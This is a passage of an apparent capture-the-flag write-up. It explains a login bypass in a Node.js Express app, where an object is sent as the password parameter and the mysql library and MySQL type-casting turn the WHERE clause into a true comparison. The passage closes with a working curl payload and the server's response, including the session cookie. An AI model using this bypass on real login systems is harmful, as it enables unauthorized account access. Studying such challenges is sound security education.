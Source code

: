 ```js  
{  
 username: 'michelle',  
}  
```

Now, the query becomes something like:

```js  
con.query('Select * from users where username = ? and password = ?',
['michelle', {username: 'michelle'}], function(err, qResult) {...});  
```

This actually evaluates to:

```js  
"Select * from users where username = 'michelle' and password = `username` =
'michelle';"  
```

This works because of the way `mysql` evaluates strings. When you evaluate
`'password' = 'username'`, it returns a 0. Then, if you compare `0` and
`'michelle'`, `true` is returned. This happens because of the way type-casting
is done in `mysql`.  
  

This exploit would work for any string (not just `michelle`) except the ones
which get type-casted to a different number.  
  

For example, `0 = '1michelle'` will evaluate to false, since `1michelle` when
converted to an integer gives `1`. Therefore, `password[username] = 1michelle`
will not allow you to log in successfully. Check out
[this](https://stackoverflow.com/questions/22080382/mysql-why-comparing-a-
string-to-0-gives-true) link for a more detailed explanation.  
  

Here's the final paylaod.

```bash  
curl -i -X POST --data 'csrf&username=michelle&password[username]=michelle'
"https://log-me-in.web.ctfcompetition.com/login"

HTTP/2 302  
content-type: text/plain; charset=utf-8  
x-powered-by: Express  
location: /me  
vary: Accept  
set-cookie:
session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9;
path=/; httponly  
set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly  
x-cloud-trace-context: 51c2e656058a1cc31a265b3a8ad0d4b1  
date: Mon, 24 Aug 2020 06:53:43 GMT  
server: Google Frontend  
content-length: 25

Found. Redirecting to /me  
```
